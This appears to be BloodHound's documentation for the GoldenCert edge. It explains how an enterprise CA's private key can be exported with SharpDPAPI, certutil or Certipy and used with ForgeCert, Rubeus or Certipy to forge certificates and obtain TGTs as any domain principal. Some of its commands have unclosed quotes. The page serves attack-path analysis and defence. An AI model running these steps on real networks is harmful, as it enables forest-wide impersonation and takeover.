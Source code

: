 ```yaml
---
title: GoldenCert
---
```


<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.


The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key - using built-in GUI (certsrv.msc)

1.  Open certsrv.msc as Administrator on the enterprise CA host.
2.  Right-click on the enterprise CA and select "All Tasks" followed by "Back up CA...".
3.  Click "Next", select "Private key and CA certificate", and select the location folder.
4.  Click "Next", and set a password.
5.  Click "Next" and click "Finish" to back up the certificate as a .p12 file.

#### Step 2

Obtain CA certificate incl. private key - using commandline tools

* Print all certificates of the host using SharpDPAPI.  The enterprise CA certificate is the one where issuer and subject are identical.
```
SharpDPAPI.exe certificates /machine
```
* Save the private key in .key file (e.g. cert.key) and the certificate in .pem file (cert.pem) in the same folder.
* Create a .pfx version of the CA certificate using certutil:
```
certutil.exe -MergePFX .\\cert.pem .\\cert.pfx
```
* Set password when prompted.

#### Step 3

Forge certificate and obtain a TGT as targeted principal.

* Forge a certificate of a target principal using ForgeCert:
```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "password123!" --Subject "CN=User" --SubjectAltName "roshi@dumpster.fire" --NewCertPath target.pfx --NewCertPassword "NewPassword123!"
```
* Request a TGT for the targeted principal using the certificate with Rubeus:
```
Rubeus.exe asktgt /user:Roshi /domain:dumpster.fire /certificate:target.pfx /password:NewPassword123!
```
### Linux

#### Step 1

* Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy.  The enterprise CA certificate is the one where issuer and subject are identical.
```
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!
```
#### Step 2

Forge a certificate of a target principal:
```
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

